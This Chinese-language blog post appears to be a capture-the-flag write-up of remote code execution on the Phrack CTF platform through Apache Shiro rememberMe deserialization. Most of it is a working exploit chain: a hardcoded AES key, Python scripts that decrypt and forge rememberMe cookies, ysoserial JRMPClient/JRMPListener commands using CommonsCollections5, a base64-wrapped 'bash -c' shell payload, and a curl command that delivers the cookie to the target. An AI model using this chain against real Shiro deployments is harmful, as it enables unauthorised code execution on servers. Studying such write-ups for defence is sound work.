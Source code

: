 ```yaml
---
layout: post
title: Phrack CTF Platform RCE
category: 抛砖引玉
tags: Phrack RCE
description:
---
```


## 0x00 start.

强网杯的一道题看师傅们做了但是没有细节.是shiro没有及时更新存在反序列漏洞最后RCE.
在本文章发布的时候，作者已经修复.
需要的知识：
`https://paper.seebug.org/shiro-rememberme-1-2-4/`
`https://bling.kapsi.fi/blog/jvm-deserialization-broken-classldr.html`
`http://blog.orange.tw/201803pwn-ctf-platform-with-java-jrmp-gadget.html`
`http://blog.knownsec.com/2016/08/apache-shiro-java/`

## 0x01 do it.
 - rememberMe cookie
 - CookieRememberMeManager.java
 - Base64
 - AES
 - 加密密钥硬编码
 - Java serialization

我们要做的就是先解码在解密,默认的KEY在这.
AES KEY 
```
path: src/main/resources/spring-shiro.xml
value="#{T(org.apache.shiro.codec.Base64).decode('cGhyYWNrY3RmREUhfiMkZA==')}"/>
```
然后再把cookie 中的rememberMe 字段的值解码之后在解密。
```
#pip install pycrypto
import sys
import base64
from Crypto.Cipher import AES
def decode_rememberme_file(filename,key):
    with open(filename, 'rb') as fpr:
        mode =  AES.MODE_CBC
        IV   = b' ' * 16
        encryptor = AES.new(base64.b64decode(key), mode, IV=IV)
        remember_bin = encryptor.decrypt(fpr.read())
    return remember_bin
if __name__ == '__main__':
	print decode_rememberme_file('./code',sys.argv[1])
```

![Screen Shot 2018-03-28 at 5.51.06 PM.png][1]


第二行ac ed存在.

## 0x02 构造payload
然后在文章[Apache Shiro Java 反序列化漏洞分析][2]中已经详细的分析过触发点.Apache Shiro自己实现了一个ClassLoader导致了无法像文章里面直接用gadget,然后使用了`ysoserial.exploit.JRMPListener`和JRMPClient构造payload.

加密脚本
```
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES
import sys

def encode_rememberme():

    payload = sys.stdin.read()
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "cGhyYWNrY3RmREUhfiMkZA=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(payload)
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme()    
    print("rememberMe={}".format(payload.decode()))
```


![Screen Shot 2018-03-28 at 6.06.02 PM.png][3]

```java -jar ysoserial.jar JRMPClient '1.2.3.4:1234' | python exp1.py```

![Screen Shot 2018-03-28 at 6.06.55 PM.png][4]

```java -cp ysoserial.jar  ysoserial.exploit.JRMPListener 1234 CommonsCollections5 "osshell"```

执行curl 发现有返回,但是在构造的时候发现传入空格的时候发现ysoserial的gadget不支持传入数组.于是构造`bash -c {echo,base64编码之后}|{base64,-d}|{bash,-i}`
在次生成payload

```
curl http://1.2.3.4:8080/home -H "Cookie:`java -jar ysoserial.jar JRMPClient '1.2.3.4:1234' | python exp1.py`"  > /dev/null
```



  [1]: https://img.scanfsec.com/img/2018032116386612.png
  [2]: http://blog.knownsec.com/2016/08/apache-shiro-java/
  [3]: https://img.scanfsec.com/img/2018033439134614.png
  [4]: https://img.scanfsec.com/img/2018031403773920.png
